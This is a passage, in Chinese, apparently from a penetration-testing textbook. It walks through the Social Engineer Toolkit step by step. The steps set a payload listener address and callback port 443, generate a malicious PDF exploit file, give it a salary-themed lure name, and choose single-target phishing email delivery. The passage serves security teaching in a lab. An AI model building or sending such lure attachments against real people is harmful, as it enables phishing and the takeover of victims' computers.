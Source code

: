 ### 设置选项

SET 应该提示输入载荷的相关选项，在这种情况下是 `LHOST` 和 `LPORT`。如果你不太熟悉 Metasploit，只需根据提示设置正确的选项，系统会自动配置，如示例 11-6 所示。将载荷监听器设置为 Kali Linux 的 IP 地址。将回连接端口保留为默认端口（443）。

示例 11-6. 设置选项

```
set> IP address for the payload listener: **192.168.20.9**
set:payloads> Port to connect back on [443]:
[-] Defaulting to port 443...
[-] Generating fileformat exploit...
[*] Payload creation complete.
[*] All payloads get sent to the /usr/share/set/src/program_junk/template.pdf directory
[-] As an added bonus, use the file-format creator in SET to create your attachment.
```

### 命名你的文件

接下来，系统会提示你为你的恶意文件命名。

```
Right now the attachment will be imported with filename of 'template.whatever'
   Do you want to rename the file?
   example Enter the new filename: moo.pdf
    1\. Keep the filename, I don't care.
    2\. Rename the file, I want to be cool. ❶

set:phishing> **2**
set:phishing> New filename: **bulbsecuritysalaries.pdf**
[*] Filename changed, moving on...
```

选择选项 **`2`** ❶ 来重命名恶意 PDF 文件，并输入文件名 *bulbsecuritysalaries.pdf*。SET 应该继续。

### 单个邮件或群发邮件

现在决定是让 SET 将恶意文件发送到单个电子邮件地址还是一个地址列表，具体可参考示例 11-7。

示例 11-7. 选择执行单一电子邮件地址攻击

```
   Social Engineer Toolkit Mass E-Mailer

   What do you want to do:

   1\.  E-Mail Attack Single Email Address ❶
   2\.  E-Mail Attack Mass Mailer ❷
   99\. Return to main menu.

set:phishing> **1**
```

目前选择单个电子邮件地址选项 ❶。（稍后我们将在群发邮件攻击中看到如何发送群发邮件 ❷。）

### 创建模板
